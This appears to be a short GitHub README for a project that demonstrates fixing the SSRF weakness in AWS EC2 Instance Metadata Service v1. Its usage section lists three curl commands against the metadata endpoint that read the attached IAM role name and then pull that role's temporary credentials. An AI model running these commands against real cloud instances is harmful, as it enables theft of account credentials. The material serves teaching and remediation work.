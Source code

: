 # Project Summary
Demonstrates how to fix the Server Side Request Forgery Vulnerabilty in Instance Metadata Service Version 1.

# How to Use
As per my article, use the following process to exploit IMDSv1 on the EC2 instance.

- Run the following command to see the name of the role (if any) attached to the EC2 instance
``curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`

- We can store the output as an environment variable, in this case role_name
`role_name=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)`

- Finally, we can run a command to retrieve the credentials
`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$role_name`

# Notes
Ensure to update the variables to those for your AWS account.
